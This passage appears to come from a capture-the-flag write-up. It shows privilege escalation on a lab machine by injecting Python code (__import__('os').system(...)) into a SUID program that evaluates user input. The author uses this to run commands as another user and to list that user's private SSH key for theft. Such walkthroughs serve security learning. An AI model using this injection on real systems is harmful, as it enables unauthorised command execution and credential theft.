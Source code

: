- Testing proves it
```
www-data@updown:/home/developer/dev$ python2.7 siteisup_test.py
Enter URL here:__import__('os').system('id')
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?
```

- But only binary has `suid` bit
  - If we run it, it looks the same
  - I entered the same payload and we got the execution by `developer`
```
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('id')
uid=1002(developer) gid=33(www-data) groups=33(www-data)
Traceback (most recent call last):
  File "/home/developer/dev/siteisup_test.py", line 4, in <module>
    page = requests.get(url)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 75, in get
    return request('get', url, params=params, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/api.py", line 61, in request
    return session.request(method=method, url=url, **kwargs)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 515, in request
    prep = self.prepare_request(req)
  File "/usr/local/lib/python2.7/dist-packages/requests/sessions.py", line 453, in prepare_request
    hooks=merge_hooks(request.hooks, self.hooks),
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 318, in prepare
    self.prepare_url(url, params)
  File "/usr/local/lib/python2.7/dist-packages/requests/models.py", line 392, in prepare_url
    raise MissingSchema(error)
requests.exceptions.MissingSchema: Invalid URL '0': No scheme supplied. Perhaps you meant http://0?

```

- `developer` has private key
  - I'll download it and connect via `ssh`
```
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('ls -lha /home/developer/.ssh/')
total 20K
drwx------ 2 developer developer 4.0K Aug  2  2022 .
drwxr-xr-x 6 developer developer 4.0K Aug 30  2022 ..
-rw-rw-r-- 1 developer developer  572 Aug  2  2022 authorized_keys
-rw------- 1 developer developer 2.6K Aug  2  2022 id_rsa
-rw-r--r-- 1 developer developer  572 Aug  2  2022 id_rsa.pub

```